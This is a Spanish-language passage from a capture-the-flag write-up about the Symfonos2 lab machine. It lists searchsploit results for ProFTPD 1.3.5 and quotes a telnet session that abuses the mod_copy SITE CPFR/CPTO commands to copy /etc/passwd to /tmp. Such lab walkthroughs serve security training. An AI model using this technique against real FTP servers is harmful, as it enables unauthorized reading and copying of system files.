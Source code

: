### Explotación ProFTPD (Symfonos2)

* * *

Volviendo a los servicios encontrados vemos que en el puerto 21 hay una versión un poco antigua de `ProFTPD`. Buscamos vulnerabilidades asociadas a este servicio

```ruby
❯ searchsploit proftpd 1.3.5
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                                                                       | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                                                                             | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                                                                                         | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                                                                                                       | linux/remote/36742.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

Si observamos el contenido de `linux/remote/36742.txt` vemos que podemos copiar archivos de la máquina a un directorio determinado

```ruby
---------------------------------
Trying 80.150.216.115...
Connected to 80.150.216.115.
Escape character is '^]'.
220 ProFTPD 1.3.5rc3 Server (Debian) [::ffff:80.150.216.115]
site help
214-The following SITE commands are recognized (* => s unimplemented)
214-CPFR <sp> pathname
214-CPTO <sp> pathname
214-UTIME <sp> YYYYMMDDhhmm[ss] <sp> path
214-SYMLINK <sp> source <sp> destination
214-RMDIR <sp> path
214-MKDIR <sp> path
214-The following SITE extensions are recognized:
214-RATIO -- show all ratios in effect
214-QUOTA
214-HELP
214-CHGRP
214-CHMOD
214 Direct comments to root@www01a
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto /tmp/passwd.copy
250 Copy successful
-----------------------------------------
```
